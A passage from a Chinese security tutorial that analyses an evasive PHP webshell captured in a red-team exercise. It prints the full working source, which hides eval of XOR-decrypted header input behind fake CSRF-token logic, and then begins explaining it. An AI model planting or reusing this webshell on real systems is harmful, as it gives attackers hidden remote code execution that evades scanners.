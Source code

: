 ### 12.3 样例三

这个免杀马是在近期某大型攻防演练中捕获到的，也是能过一众查杀引擎~  
这个样例使用了异或 + 编解码转换 + 参数加解密回调 + 密钥协商的手法，成功规避了语义分析和正则匹配式，具有实战意义

这个 WebShell 和冰蝎马等具有相似性，各位师傅不妨可以看看原理：

```plain
<?php
session_start();

function set_token($v,$t) {
    $r="";
    for ($x=0; $x<strlen($v);$x++) {
        if(($x+1)%strlen($t)!=0) {
            $r.=chr(ord(substr($v,$x,$x+1))^ord(substr($t,$x%strlen($t),($x+1) % strlen($t))));
        } else {
            $r.=chr(ord(substr($v,$x,$x+1))^ord(substr($t,$x%strlen($t),16)));
        }
    }
    return $r;
}

if (isset($_SERVER["HTTP_TOKEN"])) {
    $t=substr(md5(rand()),16);
    $_SESSION['token']=$t;
    header('Token:'.$_SESSION['token']);
} else {
    if(!isset($_SESSION['token'])) {
        return;
    }
    $v=$_SERVER['HTTP_X_CSRF_TOKEN'];
    $b='DQHNGW'^'&0;+qc';
    $b.= '_dec'.chr(111).'de';
    $v=$b($v."");

    class E {
        public function __construct($p) {
            $c=('ZSLQWR'^'82?4af')."_d"."eco".chr(108-8)."e";
            $e = $c($p);
            eval(null.$e."");
        }
    }
    @new E(set_token($v, $_SESSION['token']));
}
```

这个 WebShell 要如何执行命令呢？共需要三步，请看我细细分析~

首先，这个函数定义了一个函数 `set_token()` 和一个类 `class E`，但我们不着急看，我们先看 PHP 先执行的部分：

```plain
if (isset($_SERVER["HTTP_TOKEN"])) {
    $t=substr(md5(rand()),16);
    $_SESSION['token']=$t;
    header('Token:'.$_SESSION['token']);
} else {
    if(!isset($_SESSION['token'])) {
        return;
    }
    $v=$_SERVER['HTTP_X_CSRF_TOKEN'];
    $b='DQHNGW'^'&0;+qc';
    $b.= '_dec'.chr(111).'de';
    $v=$b($v."");
}
```
